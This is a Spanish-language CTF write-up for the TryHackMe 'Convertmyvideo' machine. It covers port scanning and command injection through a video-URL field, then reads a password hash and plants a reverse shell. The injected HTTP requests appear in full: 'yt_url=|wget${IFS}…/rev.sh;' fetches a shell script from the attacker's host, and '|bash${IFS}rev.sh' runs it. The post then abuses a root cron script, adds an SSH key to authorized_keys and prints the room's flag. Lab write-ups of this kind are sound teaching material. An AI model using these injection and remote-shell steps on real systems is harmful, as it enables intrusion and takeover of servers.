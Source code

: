 ```yaml
---
layout: post
title:  "Convertmyvideo | TryHackMe 👨‍🔬"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
---
```



{: .message}

Es una maquina linux que nos permite explotar una vulnerabilidad que se encuentra en el OWASP Top 10 (2017).

## Enumeración
### Nmap
*Puertos:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*Escaneo mas exhaustivo:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

Luego de fuzzear di con un directorio que es admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)

## PoC Inyección de comandos

Despues de un rato probando di con una inyección de comando en la parte donde se inserta la url

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)

Podemos tambien visualizar la flag desde aqui (Para el espaciado utilizo Input Field Separators que es una variable de separador de campo de entradas):  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)

Podemos visualizar el contenido que tiene admin:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)

Algo que llama la atencion es el contenido que tiene .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)

```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

Con esto lo podremos crackear ```jesie```  y posteriormente entrar en el panel que nos aparece cuando entramos a /admin. En esta oportunidad iremos por otro vector.

## Shell Inicial

Primero haremos una reverse sencilla con bash y luego nos montamos un servidor con python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Luego ejecutamos la reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

La  primera utilidad a utilizar es ```linpeas```  esta nos muestra lo mismo que sacamos con la inyección de comandos:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


Un script interesante es clean.sh, la idea es basicamente agregar una reverse y esperar que sea ejecutada:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)

En esta imagen se confirma mi teoria que basicamente consiste en que ese script es ejecutado por root mediante una tarea cron:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)

```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

Esto no va con la resolución de la maquina pero me parece interesante el tema del local port forwarding que nos permite a nosotros visualizar servicios que solo puedan verse en la maquina de manera local (Este no es el caso pero suponiendo que nos encontremos mas adelante con esto).

Primero nos generamos un par de llaves con ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)

Agregamos nuestra llave al authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)

Probamos que todo este correcto:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)

Con el siguiente comando le estamos diciendo que queremos que el puerto 80 de la maquina victima sea reflejado en el 8084 de nuestra maquina:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)

Asi lo podriamos visualizar:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)

En esta maquina pudimos explotar una inyección de comando y posteriormente abusar de una tarea cron.

